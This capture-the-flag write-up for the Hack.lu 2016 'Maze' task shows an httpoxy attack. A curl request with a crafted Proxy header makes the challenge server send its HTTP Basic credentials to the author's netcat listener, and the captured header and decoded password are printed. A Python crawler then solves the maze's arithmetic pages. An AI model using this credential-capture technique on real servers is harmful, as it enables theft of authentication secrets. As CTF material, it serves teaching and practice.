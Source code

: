 Hack.lu 2016: Maze
==================

Description
----------

Maze was a programming task and worth 200 points. And the task was found at this url [https://cthulhu.fluxfingers.net:1507/](https://cthulhu.fluxfingers.net:1507/)

Step 1
------

From the website we could not go through to the links since it required authentication, but we could go the [code.php](https://cthulhu.fluxfingers.net:1507/code.php). From here we could get a reference to 
```
# Ubuntu trusty
# Apache/2.4.7-1ubuntu4 
```
and this leaded us to a proxy request header vulnerability called [httpoxy](https://httpoxy.org/).  This vulnerability can be exploited with sending a http request with the proxy address with our server in the header field, and have that server listen with nc. Then their sever will visit my nc session with the http authentication credentials.  

```shell
 curl --header "Proxy: xxx.xx.xxx.xxx:13337" https://cthulhu.fluxfingers.net:1507/  
```

```shell
odinj@Ragnarok:/tmp/tmp$ nc -l -v -p 13337
listening on [any] 13337 ...
149.13.33.84: inverse host lookup failed: Unknown host
connect to [xxx.xx.xxx.xxx] from (UNKNOWN) [149.13.33.84] 49887
GET http://10.0.4.64/maze/ HTTP/1.1
Authorization: Basic c3VwM3JzM2NyM3R1czNyOm4wYjBkeWM0bmd1M3NteXA0c3N3MHJk
Host: 10.0.4.64
Accept: */*
Proxy-Connection: Keep-Alive
```

Then after decoding the base64 string I got the username and password for http authentication: **sup3rs3cr3tus3r:n0b0dyc4ngu3smyp4ssw0rd**

Step 2
------

Then after login in with http authentication, we got a math equation to solve. ![Step2](img/step2.png)
After solving the equation we got four new links. After a lot of failure and thinking I found out that this was graph traversing and created a python script for traversing all the URL and solve the math equations. Then after the python script did a while, about 30mins, the flag did appear.

```python

#! /usr/bin/python

#A hacked together script for solving Maze task at Hack.lu 2016

import requests
import re
from bs4 import BeautifulSoup
import time

username = 'sup3rs3cr3tus3r'
password = 'n0b0dyc4ngu3smyp4ssw0rd' 
url = 'https://cthulhu.fluxfingers.net:1507'

already_visited = []

def checkurl(link):
    global already_visited
    if link in already_visited:
        return False
    print(link)
    html_doc = requests.get(url+link, auth=(username, password)).content
    math = re.findall('(\d+)|([+*/-]+)', str(html_doc))
    print(html_doc)
    if not math:
        return
    already_visited.append(link)
    ##print(math)
    nr1 = int(math[0][0])
    nr2 = int(math[2][0])
    #print(math[1][1])
    if str(math[1][1]) == '+':
            tot = nr1 + nr2
    elif str(math[1][1]) == '-':
            tot = nr1 - nr2
    elif str(math[1][1]) == '/':
            tot = nr1 / nr2
    elif str(math[1][1]) == '*':
            tot = nr1 * nr2
    
    html_doc3 = requests.post(url+link, auth=(username, password), data = {'result':tot}).content
    #print(html_doc3)
    urllist2 = []	

    soup2 = BeautifulSoup(str(html_doc3), "html.parser")
    for link in soup2.find_all('a'):
        urllist2.append(link.get('href'))
    #print(urllist)
    #time.sleep(2)
    for urllink2 in urllist2:
        checkurl(urllink2)



	


urllist = []

html_doc = requests.get(url, auth=(username, password)).content

soup = BeautifulSoup(str(html_doc), "html.parser")
for link in soup.find_all('a'):
    urllist.append(link.get('href'))

urllist.remove("code.php")

for urllink in urllist:
	checkurl(urllink)
	



```
RUN:
```shell
./maze_solved.py
```

And thats is, and 200 point + bonus happier.
